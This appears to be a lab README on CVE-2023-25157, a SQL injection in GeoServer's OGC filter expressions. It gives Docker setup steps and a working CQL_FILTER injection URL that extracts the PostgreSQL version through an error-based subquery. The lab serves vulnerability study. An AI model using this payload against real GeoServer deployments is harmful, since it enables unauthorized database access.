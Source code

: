 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

| 화이트햇 스쿨 3기(35반) -  손예은

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## Vulnerable environment

Execute following command to start a GeoServer instance 2.22.1:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

Exploit the server by this simple URL:

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
